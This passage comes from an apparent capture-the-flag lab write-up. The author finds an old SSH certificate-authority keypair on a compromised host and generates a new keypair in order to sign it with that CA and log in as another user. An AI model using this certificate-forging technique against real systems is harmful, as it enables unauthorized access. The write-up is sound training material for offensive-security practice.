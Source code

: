 ![user pwn msainristil](https://github.com/architmadankar/HackTheBox/blob/d00b457220eb66504d318b44db75c7a93e925ca6/resource.htb/ss/ssh-user.png)



Still no user flag 

but there are some ssh pub keypair in folder

```
msainristil@itrc:~/decommission_old_ca$ ls
ca-itrc  ca-itrc.pub
```

so both of the files are used signing and authorizing keys 

we need to create a key and sign it wil ca-itrc

```
ssh-keygen -t rsa -b 2048 -f sed
```
```bash
msainristil@itrc:~/decommission_old_ca$ ssh-keygen -t rsa -b 2048 -f sed
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in sed
Your public key has been saved in sed.pub
The key fingerprint is:
SHA256:PhpFb65XJID0Sz/pX09As2WoDltap0hW9g4RqpAEtRA msainristil@itrc
The key's randomart image is:
+---[RSA 2048]----+
|    E=+.    .    |
|     o.+.  . . . |
|      + +.. + + o|
|       + =.+.= = |
|        S Xo= =  |
|       o * X.= . |
|      . o *.o o .|
|       o o.. . o |
|      . ..  .   .|
+----[SHA256]-----+
msainristil@itrc:~/decommission_old_ca$ ls
ca-itrc  ca-itrc.pub  sed  sed.pub
```
we now have a dummy keypair now we have to sign it with ca-itrc with zzinter user
